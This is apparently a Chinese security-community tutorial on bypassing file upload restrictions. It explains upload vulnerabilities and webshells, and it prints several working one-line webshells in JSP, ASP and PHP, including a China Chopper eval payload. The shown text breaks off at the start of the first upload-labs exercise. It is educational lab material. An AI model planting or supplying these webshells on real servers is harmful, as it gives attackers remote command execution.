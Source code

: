 

# 论文件上传绕过的各种姿势 - 先知社区

论文件上传绕过的各种姿势

- - -

先来介绍下文件上传漏洞  
**一。什么是文件上传漏洞**

> Web 应用程序通常会有文件上传的功能，例如在 BBS 发布图片 , 在个人网站发布 ZIP 压缩 包，在办公平台发布 DOC 文件等 , 只要 Web 应用程序允许上传文件，就有可能存在文件上传漏洞

**二。什么样的网站会有文件上传漏洞**

> 大部分文件上传漏洞的产生是因为 Web 应用程序没有对上传文件的格式进行严格过滤 , 还有一部分是攻击者通过 Web 服务器的解析漏洞来突破 Web 应用程序的防护，后面我们会讲 到一些常见的解析漏洞，最后还有一些不常见的其他漏洞，如 IIS PUT 漏洞等

**三。文件上传漏洞的危害**

> 上传漏洞与 SQL 注入或 XSS 相比 , 其风险更大 , 如果 Web 应用程序存在上传漏洞 , 攻击者甚至可以直接上传一个 webshell 到服务器上  
> 
> - - -

关于**webshell**

> webshell 是以 asp、php、jsp 等网页文件形式存在的一种命令执行环境，也称其为一种网页后门。一般说来，当 Hacker 入侵一个网站后，会把这些 asp、php 木马的后门文件放在该网站的 web 目录中，和正常的网页文件混杂，其命名可能和正常的文件命名很类似，让人无法第一眼通过文件名判断其为后门文件。然后呢，他就可以利用 web 请求的方式，用 asp 或者 php 木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等一系列操作。

**webshell**的分类

> 1.根据文件大小分类：大马和小马 (通常指的是一句话木马，能够使用菜刀这类工具去直接连接它)  
> 2.根据脚本名称分类：jsp、asp、aspx、php

几种经典的**webshell:**

1）jsp 的简单的 webshell:

```bash
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

2）asp 的简单的 webshell:

```bash
success!!!!<%eval request("cmd")%>
```

3）php 的简单的 webshell:

-   php 经典一句话：`<?php echo shell_exec($_GET['cmd']);?>`
    
    -   中国菜刀：`<?php @eval($_POST['自定义密码']);?> 然后连接菜刀就能直接进服务器了`
    
    好了介绍完这些就开始做题吧 (。・∀・) ノ，
    
    - - -
    

**Less-1**  
[![](assets/1698897315-012463d3537f5c536181dcd81201aad3.png)](http://img-blog.csdnimg.cn/2019080418580531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
先在本地新建一个 webshell 文件，然后上传 webshell 发现失败  
